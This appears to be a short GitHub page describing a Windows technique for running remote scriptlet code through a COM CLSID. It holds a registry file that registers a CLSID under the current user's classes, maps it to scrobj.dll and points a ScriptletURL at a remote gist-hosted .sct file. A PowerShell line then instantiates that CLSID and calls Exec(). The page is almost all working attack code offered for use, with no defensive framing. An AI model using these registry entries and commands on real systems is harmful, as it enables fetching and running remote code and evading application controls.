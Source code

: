 ### Author Matt harr0ey 

Synopsis: This method grants you the right to access and the execute via Activator.System .NET to connection with Scriptlet through a CLSID

![131231](https://user-images.githubusercontent.com/25440152/48066324-f0db7d00-e1d5-11e8-8bb6-efa03b4c4a7c.PNG)

![312313123123131](https://user-images.githubusercontent.com/25440152/48066255-c25da200-e1d5-11e8-9ad5-6129775e5646.PNG)

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}]
@="Bandit"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\InprocServer32]
@="C:\\WINDOWS\\system32\\scrobj.dll"
"ThreadingModel"="Apartment"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\ProgID]
@="Bandit"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\ScriptletURL]
@="https://gist.githubusercontent.com/homjxi0e/3e4488789a6b9222e445a68d29962518/raw/a167f0f680b446be17fa6a898b865b0056dfb072/COMobj.sct"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\VersionIndependentProgID]
@="Bandit"

```
```
$1=[Activator]::CreateInstance([type]::GetTypeFromCLSID("{00020000-0000-0000-C000-000000000046}"));
$1.Exec();
```
